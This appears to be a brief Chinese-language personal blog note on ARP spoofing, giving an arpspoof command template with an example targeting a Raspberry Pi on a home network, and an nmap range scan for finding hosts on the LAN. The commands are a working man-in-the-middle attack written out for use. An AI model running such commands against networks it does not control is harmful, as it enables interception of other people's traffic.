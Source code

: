 ```yaml
---
title: 'arp欺骗'
date: 2022-09-26 15:28:06
tags: [Linux]
published: true
hideInList: false
feature: 
isTop: false
---
```

# 命令

```shell
$ arpspoof -i <网卡名> -t <目标ip> <网关ip>
如 我要攻击树莓派:
$ arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
```

# 获取局域网内其他ip

```shell
$ namp <局域网段>
如:
$ nmap 192.168.1.5-11
```